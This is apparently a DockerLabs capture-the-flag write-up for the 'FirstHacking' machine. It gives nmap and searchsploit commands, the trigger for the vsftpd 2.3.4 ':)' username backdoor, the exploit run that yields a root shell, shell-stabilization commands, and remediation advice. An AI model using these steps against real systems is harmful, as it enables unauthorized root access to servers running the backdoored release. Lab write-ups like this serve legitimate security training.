


# FirstHacking — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Muy Fácil · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1

## Machine info


## Summary

FirstHacking is a very easy machine built around a single well-known vulnerability. The path to root requires no privilege escalation at all: enumerating the only open port reveals an outdated FTP service, vsftpd 2.3.4, which ships with a publicly documented malicious backdoor. Exploiting that backdoor directly returns a shell already running as root.

**Attack chain:** Recon → Service version identification (vsftpd 2.3.4) → Public exploit lookup → Backdoor exploitation → Direct root shell

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.

```
ping -c 1 172.17.0.2
```



```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

Results:

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | ftp | vsftpd 2.3.4 |

Only one port was open on the target, immediately narrowing the attack surface to the FTP service.

## 2. Service Version Research

vsftpd 2.3.4 is a well-known vulnerable release: the publicly distributed source archive for this version was compromised at some point and shipped with a backdoor. Any FTP login attempt using a username containing the string `:)` causes the service to open a listener on TCP port 6200 that spawns a root shell — no valid credentials required.

Confirmed public exploits with `searchsploit`:

```
searchsploit vsftpd 2.3.4
```

Results:

```
vsftpd 2.3.4 - Backdoor Command Execution                | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)    | unix/remote/17491.rb
```

## 3. Exploitation

Copied the Python exploit locally and executed it against the target.

```
searchsploit -m unix/remote/49757.py
python3 49757.py 172.17.0.2
```

The exploit connected to FTP with a crafted username, triggered the backdoor listener on port 6200, and returned a shell — already running as root, since the vsftpd service itself runs with root privileges. Stabilized the shell and confirmed access:

```
script /dev/null -c bash
cd /root
id
whoami
```



## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Outdated vsftpd 2.3.4 with a known malicious backdoor (CVE-2011-2523) | Upgrade to a current, official vsftpd release; verify package checksums/signatures when installing software |
| FTP service running with root privileges | Run the FTP daemon under a dedicated, unprivileged system account |
